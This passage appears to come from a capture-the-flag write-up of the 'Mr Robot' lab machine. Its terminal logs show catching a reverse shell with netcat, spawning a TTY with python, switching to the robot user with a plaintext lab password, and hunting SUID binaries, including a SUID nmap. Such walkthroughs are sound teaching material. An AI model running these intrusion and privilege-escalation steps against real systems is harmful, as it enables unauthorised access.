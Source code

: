 ```bash
822c73956184f694993bede3eb39f959
robot@linux:~$
```

## FLAG 3

back into the box, reverse php page, su to robot user:

```bash
444 💀 ± ➤ sudo rlwrap nc -lvrp 443
listening on [any] 443 ...
10.10.77.167: inverse host lookup failed: Unknown host
connect to [10.11.55.83] from (UNKNOWN) [10.10.77.167] 56597
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 00:29:34 up 3 min,  0 users,  load average: 0.35, 0.38, 0.17
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
su - robot
su - robot
abcdefghijklmnopqrstuvwxyz

/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
robot@linux:~$

robot@linux:~$

ls -al
ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

### suids

try find SUIDs

```bash

find / -perm /4000
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
find: `/etc/ssl/private': Permission denied
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```